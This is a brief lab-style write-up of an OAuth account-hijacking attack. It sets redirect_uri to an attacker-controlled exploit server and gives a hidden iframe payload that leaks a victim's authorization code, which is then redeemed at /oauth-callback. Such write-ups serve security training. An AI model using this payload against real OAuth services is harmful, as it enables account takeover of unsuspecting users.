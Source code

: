 # OAuth account hijacking via redirect_uri

We set our server as the value of the redirect_uri parameter.

![Screenshot1](/Screenshots/1-OAuth-account-hijacking-via-redirect_uri.png)

In the logs of our server we obtained, as a PoC:

![Screenshot2](/Screenshots/2-OAuth-account-hijacking-via-redirect_uri.png)

With the same logic créate a script that we will send to the victim


```js
<iframe src="https://<OAUTH-IP>/auth?client_id=<YOUR-CLIENT-ID>&redirect_uri=<EXPLOIT-SV>&response_type=code&scope=openid%20profile%20email"hidden="hidden"></iframe>
```

We obtain the victim's code and submit it to /oauth-callback.

![Screenshot3](/Screenshots/3-OAuth-account-hijacking-via-redirect_uri.png)

![Screenshot4](/Screenshots/4-OAuth-account-hijacking-via-redirect_uri.png)

